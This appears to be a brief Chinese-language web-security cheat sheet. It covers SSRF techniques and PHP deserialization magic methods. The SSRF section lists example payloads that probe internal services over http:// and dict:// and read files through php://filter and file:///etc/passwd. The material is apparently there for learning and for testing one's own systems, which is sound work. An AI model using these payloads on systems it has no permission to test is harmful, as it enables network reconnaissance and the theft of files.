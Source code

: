 





## SSRF

```
示例: http://www.xxx.com/a.php?image=http://192.168.0.109/xxx.png
=号后加各种协议

加上端口号，实现了内网服务探测
http://193.168.4.69:22
dict://127.0.0.1:3306

读取源码,可以使用相对路径
php://filter/read=convert.base64-encode/resource=ssrf.php

以绝对路径读取文件
file://D:/a.txt
file:///etc/passwd
```





## PHP反序列化

### 魔术变量

```
https://www.php.net/manual/zh/language.oop5.magic.php

__construct() 当一个对象创建的时候被调用

__destruct() 当一个对象销毁的时候被调用

__toString() 当一个对象被当作字符串使用的时候被调用

__invoke 当尝试以调用函数的方式调用一个对象时，会被调用

__sleep() 当对象在被序列化之前运行

__wakeup() 当在被反序列化之后调用

__get() 访问私有变量或不存在的变量均会触发

__set() 给私有变量或不存在的变量赋值时，会触发

__unset 对私有变量或不存在的变量调用unset时，会触发

__call 在对象中调用一个不可访问方法时，会被调用
```
